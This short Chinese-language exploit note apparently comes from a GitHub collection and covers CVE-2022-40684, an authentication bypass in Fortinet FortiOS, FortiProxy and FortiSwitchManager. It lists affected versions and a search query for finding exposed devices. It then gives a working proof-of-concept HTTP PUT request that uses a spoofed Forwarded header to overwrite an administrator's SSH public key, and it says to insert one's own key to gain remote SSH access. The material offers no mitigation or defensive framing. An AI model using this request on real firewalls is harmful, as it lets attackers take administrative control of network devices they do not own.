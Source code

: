 # Fortinet FortiOS admin 远程命令执行漏洞 CVE-2022-40684

## 漏洞描述

Fortinet 周一指出，上周修补的 CVE-2022-40684 身份验证绕过安全漏洞，正在野外被广泛利用。作为管理界面上的一个身份验证绕过漏洞，远程威胁参与者可利用其登录 FortiGate 防火墙、FortiProxy Web 代理、以及 FortiSwitch Manager（FSWM）本地管理实例

## 漏洞影响

```
FortiOS <= 7.2.1、7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0
FortiProxy <= 7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0
FortiSwitchManager <= 7.2.0、7.0.0
```

## 网络测绘

```
title="FortiProxy"
```

## 漏洞复现

登录页面

![image-20221024102035598](images/202210241020634.png)

验证POC, 利用时更换 admin用户名及 ssh-public-key1中的 ssh key 添加远程 SSH登录凭证

```
PUT /api/v2/cmdb/system/admin/admin HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 597
Content-Type: application/json
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
User-Agent: Report Runner

{"ssh-public-key1": "123"}
```

![image-20221024102051085](images/202210241020134.png)